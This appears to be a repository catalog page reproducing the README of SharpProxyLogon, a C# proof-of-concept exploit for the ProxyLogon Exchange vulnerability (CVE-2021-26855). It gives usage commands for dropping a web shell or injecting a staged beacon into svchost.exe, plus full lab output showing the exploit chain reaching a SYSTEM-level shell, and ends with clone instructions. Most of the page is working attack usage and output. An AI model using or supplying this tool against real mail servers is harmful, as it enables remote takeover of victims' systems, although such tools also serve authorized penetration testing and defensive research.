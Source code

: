 # SharpProxyLogon

C# POC for CVE-2021-26855 aka ProxyLogon, supports the classically semi-interactive web shell as well as shellcode injection 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Flangvik](https://github.com/Flangvik) |
| Url      | [https://github.com/Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)                                               |
| Stars    | 223                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SharpProxyLogon

C# POC for the ProxyLogon chained RCE

```
 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
```

Shellcode injection uses built-in [TikiTorch stub by @Rastamouse](https://github.com/rasta-mouse/TikiTorch), this will spawn, suspend and inject staged_beacon.bin into svchost.exe

```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net C:\Temp\staged_beacon.bin "C:\Windows\System32\svchost.exe"

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary lR_xIbkU4EeRa8k0G_ekSjy7CrzM9dgIeCdYK8sMbRQMUoAQMnEfYvHrvDLT1j2jJMFBrpxnJ1s.
[+] Got aspNETSessionID 0e8da60d-ff97-4748-80f1-5834caeba361
[+] Got OABId 1d2e2d98-c636-43c7-a3a9-8041b545d575
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, triggering injection
```

Example with classic webshell drop
```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary V7mF62VZA0ay793xWTSE07chwKLM9dgIQolVMbEnWJJkvonIUO8VWm2BZdIklFP35W-mtZnUZ4Y.
[+] Got aspNETSessionID 9028e0b3-e56c-4b33-b0e9-b66ab9ab9067
[+] Got OABId cabf9619-178d-4d3e-84a3-748ec598a477
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, going semi-interactive
CMD #>whoami
nt authority\system

CMD #>hostname
DC01

CMD #>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2598:cc98:d369:b6ed%13
   IPv4 Address. . . . . . . . . . . : 192.168.58.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.58.2

CMD #>
```


## Get the content

```
git clone https://github.com/Flangvik/SharpProxyLogon
cd SharpProxyLogon
```

{% embed url="https://github.com/Flangvik/SharpProxyLogon" %}

<figure><img src="https://avatars.githubusercontent.com/u/23613997?v=4" alt=""><figcaption><p>Flangvik</p></figcaption></figure>
